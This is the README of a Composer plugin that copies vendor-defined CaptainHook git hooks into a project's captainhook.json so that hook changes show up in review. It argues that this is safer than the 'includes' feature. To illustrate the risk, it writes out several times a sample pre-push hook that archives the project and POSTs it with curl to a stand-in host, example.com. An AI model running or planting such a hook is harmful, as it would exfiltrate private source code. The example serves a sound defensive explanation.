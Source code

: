 # captainhook-vendor-resolver

This composer-plugin introduces a package scan for captainhook/captainhook hooks.
So on every `composer require`, `composer install` or `composer remove` call, this plugin checks the `composer.json` of the installed/uninstalled package for hooks to add/remove from the `captainhook.json`.


## Where is the difference to the already existing feature "includes"

As this package only parses the `composer.json` and automagically inserts/removes the hooks, it will provide a proper diff to your project. There is no hidden hook specified in a file outside of your project.

Your projects `captainhook.json` will always contain any hook which is being executed which can be easily reviewed in Pull Requests, e.g.


### Example with the vendor resolver
`captainhook.json`
```json
{
    "commit-msg": {
        "enabled": false,
        "actions": []
    },
    "pre-push": {
        "enabled": true,
        "actions": [
            {
                "exec": "echo hey there"
            }    
        ]
    },
    "prepare-commit-msg": {
        "enabled": false,
        "actions": []
    },
    "post-commit": {
        "enabled": false,
        "actions": []
    },
    "post-merge": {
        "enabled": false,
        "actions": []
    },
    "post-checkout": {
        "enabled": false,
        "actions": []
    },
    "pre-commit": {
        "enabled": false,
        "actions": []
    }
}
```
Current version of the vendor package...

`vendor/package/composer.json` v1.0.0
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

After updating the vendor package...

`vendor/package/composer.json` v1.0.1
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

`diff captainhook.json`
```
10c10
<                 "exec": "echo hey there"
---
>                 "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"

```

### Example with includes (security implication)

`captainhook.json`
```json
{
    "config": {
        "includes": [
            "vendor/package/captainhook.hooks.json"
        ]
    }
}
```

Current version of the vendor package...

`vendor/package/captainhook.hooks.json` v1.0.0

```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```


After updating the vendor package...

`vendor/package/captainhook.hooks.json`  v1.0.1
```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```

`diff captainhook.json`
```
```

If you are not re-visiting your vendor packages for changes in that hook you are including, you will upload your whole project on the next `git push` to the attackers website.
